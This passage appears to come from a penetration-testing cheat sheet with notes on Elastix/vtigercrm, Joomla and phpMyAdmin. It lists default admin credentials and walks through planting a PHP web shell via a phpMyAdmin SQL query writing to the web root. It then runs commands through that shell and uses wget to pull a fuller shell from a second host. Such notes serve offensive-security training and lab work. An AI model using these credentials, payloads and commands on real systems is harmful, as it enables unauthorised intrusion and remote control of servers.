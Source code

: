 ### Elastix <a id="elastix"></a>

Full of vulnerabilities. The old versions at least.

[http://example.com/vtigercrm/](http://example.com/vtigercrm/)  
default login is  
`admin:admin`

You might be able to upload shell in profile-photo.

### Joomla <a id="joomla"></a>

### Phpmyadmin <a id="phpmyadmin"></a>

Default credentials

```text
root <blank>
pma <blank>
```

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:

```text
http://192.168.1.101/phpmyadmin/
```

Then click on SQL.

```text
Run SQL query/queries on server "localhost":
```

From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:

```text
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell.  
We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

#### Download a better shell <a id="download-a-better-shell"></a>

On linux-machines we can use wget to download a more powerful shell.

```text
?cmd=wget%20192.168.1.102/shell.php
```
